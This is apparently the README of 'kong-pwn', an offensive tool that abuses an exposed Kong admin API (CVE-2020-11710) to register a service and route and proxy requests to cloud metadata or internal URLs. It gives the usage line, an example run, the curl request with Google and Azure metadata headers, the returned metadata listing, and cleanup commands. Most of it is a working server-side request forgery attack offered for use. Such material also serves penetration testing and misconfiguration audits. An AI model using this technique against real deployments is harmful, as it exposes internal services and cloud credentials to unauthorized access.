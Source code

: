 # kong-pwn
Use Exposed KongAPI to act like a proxy and get metadata urls or internal urls.

CVE-2020-11710 - It's not a vuln it's a misconfiguration.

How to use
---
```
usage: kong-pwn.py [-h] -u URL -s SSRF [-p PROXY]
kong-pwn.py: error: the following arguments are required: -u/--url, -s/--ssrf
```

Example
---

```
$ python3 kong-pwn.py -u http://127.0.0.1:8001
[+] Service Added [+]
[+] Route Added [+]

[+] Testing Kong for Metadata Proxy
curl http://127.0.0.1/foo/ -H "Host: metadata.local" -H "Metadata: true" -H "Metadata-Flavor: Google"

1.0
2007-01-19
2007-03-01
2007-08-29
2007-10-10
2007-12-15
2008-02-01
2008-09-01
2009-04-04
2011-01-01
2011-05-01
2012-01-12
2014-02-25
2014-11-05
2015-10-20
2016-04-19
2016-06-30
2016-09-02
2018-03-28
2018-08-17
2018-09-24
2019-10-01
latest

[+] To remove added routes and services do the following
curl -iX DELETE http://127.0.0.1:8001/routes/metadata-endpoint
curl -iX DELETE http://127.0.0.1:8001/services/metadata-endpoint
```
